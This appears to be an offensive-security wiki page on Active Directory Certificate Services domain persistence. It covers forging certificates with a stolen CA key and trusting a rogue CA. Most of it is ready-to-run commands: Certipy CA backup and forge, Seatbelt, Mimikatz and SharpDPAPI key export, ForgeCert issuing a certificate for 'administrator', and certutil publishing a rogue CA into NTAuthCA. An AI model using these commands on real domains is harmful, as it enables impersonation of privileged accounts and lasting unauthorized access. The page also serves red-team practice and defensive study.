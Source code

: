 ## Theory
In the research [papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), Will Schroeder and Lee Christensen identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

- Forging certificates with a stolen CA certificates (DPERSIST1)
- Trusting rogue CA certificates (DPERSIST2)
## Exploit
### Stolen CA
If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.
=== "UNIX-like"
    Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with Certipy (Python).
    ```bash
    certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
    ```
    Then, forging (and signing) a certificate can be done as follows.
    ```bash
    certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
    ```
    The certificate can then be used with Pass the Certificate.
=== "Windows"
    Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).
    ```bash
    Seatbelt.exe Certificates -computername="ca.domain.local"
    ```
    Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.
    ```bash
    Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
    ```
    Alternatively, Mimikatz (C) can also be used for that purpose, locally.
    ```bash
    mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
    ```
    Alternatively, SharpDPAPI (C#) can be used for that purpose, locally, along with openssl to transform the PEM into a usable PFX.
    ```bash
    SharpDPAPI.exe certificates /machine
    ```
    ```bash
    openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "ca.pfx"
    ```
    Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).
    ```bash
    ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
    ```
### Rogue CA
An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the RootCA directory services store.

Registering the rogue CA can be done remotely with the certutil.exe utility from Windows systems.
```bash
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```
Once this is done, a certificate can be forged, signed and used as explained above